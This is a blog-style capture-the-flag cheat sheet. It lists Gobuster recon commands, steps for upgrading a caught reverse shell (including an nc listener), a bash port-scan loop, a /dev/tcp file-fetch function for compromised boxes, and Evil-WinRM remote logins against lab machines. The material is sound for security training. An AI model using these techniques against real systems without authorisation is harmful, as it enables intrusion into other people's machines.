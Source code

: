 ```yaml
---
title: "CTF All The Things"
header:
  teaser: /assets/images/2021-10-13-21-39-10.png
toc: true
toc_sticky: true
excerpt_separator:  <!--more-->
categories:
  - CTF
tags:
  - 
  - 
  - 
---
```


![ctf](/assets/images/2021-10-13-21-39-10.png)

I'm starting to move this content to something a bit easier to maintain and read over on Gitbooks [here](https://pencer.gitbook.io/pencer-ctf-all-the-things/).

## Recon

### Gobuster

Install:

```text
apt-get install gobuster
```

Mode:

```text
gobuster dns -d <target domain> -w <wordlist>
gobuster dir -u <target url> -w <wordlist>
gobuster vhost -u <target url> -w <wordlist>
```

File type:

```text
gobuster dir -u <target url> -w <wordlist> -x .php
```

Ignore certificate errors:

```text
gobuster dir -u <target url> -w <wordlist> -k
```

Specify cookie:

```text
gobuster dir -u <target url> -w <wordlist> -c 'session=123456'
```

## Shell

### Upgrade

First job is to upgrade our terminal to something more useable:

Check if Python is available:

```text
www-data@writer:/$ which python
which python
www-data@writer:/$ which python3
which python3
/usr/bin/python3
```

Spawn proper session:

```sh
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Ctrl+Z to background then set stty:

```sh
tomcat@seal:/var/lib/tomcat9$ ^Z
zsh: suspended  nc -nlvp 1337
┌──(root💀kali)-[~/htb/seal]
└─# stty raw -echo; fg
[1]  + continued  nc -nlvp 1337
```

Sort terminal, check local first:

```sh
┌──(root💀kali)-[~/htb/writer]
└─# stty size          
52 237

┌──(root💀kali)-[~/htb/writer]
└─# echo $TERM                                                            
xterm-256color
```

Then set on box:

```sh
tomcat@seal:/var/lib/tomcat9$ export TERM=xterm
tomcat@seal:/var/lib/tomcat9$ stty rows 52 cols 237
```

### Bash Port Enumeration

We can scan all ports like this:

```sh
i=1
max=65535
while [ $i -lt $max ]
do
    echo "Port: $i"
    nc -w 1 -v 172.17.0.1 $i </dev/null; echo $?
    true $(( i++ ))
done
```

### Bash wget

```sh
function __wget() {
    read proto server path <<<$(echo ${1//// })
    DOC=/${path// //}
    HOST=${server//:*}
    PORT=${server//*:}
    [[ x"${HOST}" == x"${PORT}" ]] && PORT=80
 
    exec 3<>/dev/tcp/${HOST}/$PORT
    echo -en "GET ${DOC} HTTP/1.0\r\nHost: ${HOST}\r\n\r\n" >&3
    (while read line; do
        [[ "$line" == $'\r' ]] && break
    done && cat) <&3
    exec 3>&-
}
```

### Bash mkdir & cd

```sh
mkcdir ()
{
    mkdir -p -- "$1" &&
      cd -P -- "$1"
}
```

### Look for active services

```sh
jennifer@admirertoo:~$ systemctl list-units --type=service
UNIT                               LOAD   ACTIVE SUB     DESCRIPTION                                                       
apache2.service                    loaded active running The Apache HTTP Server                                            
apache2@opencats.service           loaded active running The Apache HTTP Server                                            
apparmor.service                   loaded active exited  Load AppArmor profiles                                            
console-setup.service              loaded active exited  Set console font and keymap                                       
cron.service                       loaded active running Regular background program processing daemon                      
dbus.service                       loaded active running D-Bus System Message Bus                                          
fail2ban.service                   loaded active running Fail2Ban Service                                                  
getty@tty1.service                 loaded active running Getty on tty1                                                     
hbase.service                      loaded active running HBase                                                             
ifup@eth0.service                  loaded active exited  ifup for eth0
```

### Evil-WinRM

Standard connection with user and password, also use SSL:

```sh
┌──(root💀kali)-[~/htb/timelapse]
└─# evil-winrm -i 10.10.11.152 -u user123 -p 'password123' -S
```

Connect using certificate and private key, no user or password needed, use SSL:

```sh
┌──(root💀kali)-[~/htb/timelapse]
└─# evil-winrm -i 10.10.11.152 -c ./pfx.crt -k ./priv.key -p -u -S 
```
